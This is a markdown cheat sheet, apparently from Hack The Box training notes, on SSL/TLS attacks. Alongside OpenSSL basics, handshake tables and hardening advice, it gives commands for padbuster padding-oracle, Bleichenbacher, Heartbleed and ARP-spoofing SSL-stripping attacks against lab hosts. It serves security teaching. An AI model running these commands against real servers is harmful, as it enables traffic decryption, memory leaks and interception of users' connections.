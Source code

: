 # SSL-TLS Attacks

## OpenSSL
|Command|Description|
|---|---|
|`openssl genrsa -out key.pem 2048`|Generate 2048 Bit RSA key|
|<code>openssl s_client -connect hackthebox.com:443 &#124; openssl x509 > hackthebox.pem</code>|Download certificate of web server|
|`openssl x509 -outform der -in hackthebox.pem -out hackthebox.der`|Convert PEM certificate to DER format|
|`openssl crl2pkcs7 -nocrl -certfile hackthebox.pem -out hackthebox.p7`| Convert PEM certificate to PKCS#7 format|
|`openssl req -x509 -newkey rsa:4096 -keyout key.pem -out selfsigned.pem -sha256 -days 365`| Create self-signed certificate|
|`openssl rsa -in rsa.pem -pubout > rsa_pub.pem`|Extract public key from RSA key-pair|
|`openssl rsautl -encrypt -inkey rsa_pub.pem -pubin -in msg.txt -out msg.enc`|Encrypt file with RSA public key|
|`openssl rsautl -decrypt -inkey rsa.pem -in msg.enc > decrypted.txt`|Decrypt file with RSA private key|

## TLS 1.2 Handshake
|Message|Description|
|---|---|
|ClientHello|Contains ClientRandom, Cipher Suites supported by client|
|ServerHello|Contains TLS version, Cipher Suite for session, ServerRandom|
|Certificate|Contains server certificate|
|ServerKeyExchange|Contains server key share (only for PFS cipher suites)|
|ServerHelloDone|Tells client that the ServerHello is complete|
|ClientKeyExchange|Contains client key share|
|ChangeCipherSpec|Concludes handshake, all subsequent messages are protected|

## TLS 1.3 Handshake
|Message|Description|
|---|---|
|ClientHello|Contains ClientRandom, Cipher Suites supported by client, client key share|
|ServerHello|Contains TLS version, Cipher Suite for session, ServerRandom, server key share|
|Finished|Concludes handshake|

## Padding Oracles
|Command|Description|
|---|---|
|`padbuster http://127.0.0.1:4000/admin "AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0=" 16 -encoding 0 -cookies "user=AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0="`|Run padbuster with an encrypted sample with block size 16|

Parameters:
- specify block length
- specify encoding with `-encoding` flag
- specify location of ciphertext with `-cookies` or `-post` flags
- specify plaintext to encrypt with `-plaintext` flag
- specify `-usebody` flag to analyze response content

## POODLE
SSL 3.0 padding:
- arbitrary padding bytes
- last byte is the length of padding excluding the length itself
- Example for block size 8: `DEADBEEF` -> `DEADBEEF00000003`

## Bleichenbacher
|Command|Description|
|---|---|
|`java -jar bleichenbacher-1.0.0.jar -pcap ./bleichenbacher.pcap -executeAttack`|Run Bleichenbacher attack from pcap file|
|`java -jar bleichenbacher-1.0.0.jar -executeAttack -connect 127.0.0.1:443 -encrypted_premaster_secret <SNIP>`|Run Bleichenbacher attack against server with encrypted premaster secret|
|<code>echo -n 214[...]3a8 &#124; awk -F '0303' '{print "0303"$2}'</code>|Extract unpadded premaster secret from padded premaster secret|
|`PMS_CLIENT_RANDOM <client_random> <premaster_secret>`|Wireshark Key file syntax|

## Heartbleed
|Command|Description|
|---|---|
|`java -jar heartbleed-1.0.0.jar -connect 127.0.0.1:443 -executeAttack -heartbeats 10`|Run Heartbleed attack|

## SSL Stripping
|Command|Description|
|---|---|
|`sudo arpspoof -i docker0 172.17.0.5`|Run ARP spoofing attack on interface `docker0` targeting `172.17.0.5`|
|`Strict-Transport-Security: max-age=31536000`| HSTS header syntax|

## Testing TLS Configuration
|Command|Description|
|---|---|
|`bash testssl.sh https://hackthebox.com`|Test TLS configuration of a website|

TLS Best Practices:
- do not offer SSL 2.0 or SSL 3.0
- do not offer TLS 1.0 or TLS 1.1
- no NULL cipher suites
- no EXPORT cipher suites
- prefer PFS cipher suites
- prefer GCM mode over CBC mode
